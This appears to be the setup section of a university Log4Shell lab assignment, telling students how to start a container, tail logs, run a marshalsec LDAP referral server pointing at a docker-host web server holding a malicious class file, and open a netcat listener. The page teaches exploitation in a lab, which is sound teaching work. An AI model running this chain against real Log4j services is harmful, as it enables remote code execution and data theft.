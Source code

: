 <h1>Setup</h1>
To get setup for the flags, follow the steps carefully below, and be sure you are running each in a separate terminal window as noted.

You will need switch users to login to log4j user via:

Credentials can be found in Canvas on the Log4Shell Assignment page

In the home directory of log4j user, start the container with the start script:

./StartContainer.sh

Open a new terminal window and go to “Desktop/log4shell/logs”: &nbsp;&nbsp;cd Desktop/log4shell/logs

Run the following command to view the logs: &nbsp;&nbsp;tail -f cs6035.log

OR to view System.out.println messages: &nbsp;&nbsp;tail -f console.log

You should now see the tail of the log file from the application running.

<strong>**<em>If the logs stop populating, then just stop and restart the tail. This is happening because the data logged gets too large so the log “rolls over” to another file.</em></strong><em>**</em>

<ol>
<li><strong> Run the LDAP Server:</strong></li>
</ol>
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”: &nbsp;&nbsp;cd ~/Desktop/log4shell/target

Next, start the LDAP server by running: &nbsp;&nbsp;java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://172.17.0.1:4242/#Exploi

The IP you will be using is below. This is NOT the localhost IP address but the docker host.

172.17.0.1

<strong>It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.</strong>

You should see the following output:

<ol start="2">
<li><strong>Run the Malicious Server:</strong></li>
</ol>
Open a new terminal and make sure the active directory is the directory that contains your malicious .class file. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in. <strong>Do not leave this directory</strong>. Run the server in “Desktop/log4shell/{flag_no}” by the following command: &nbsp;&nbsp;python3 -m http.server 4242

<strong>It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct</strong> You should see the following output:

<ol start="3">
<li><strong>Read data that is flowing on the network (This step is required for Flag 2 but isoptional for the rest):</strong></li>
</ol>
Open a terminal and run: &nbsp;&nbsp;nc -nlvp &lt;your_desired_port&gt;
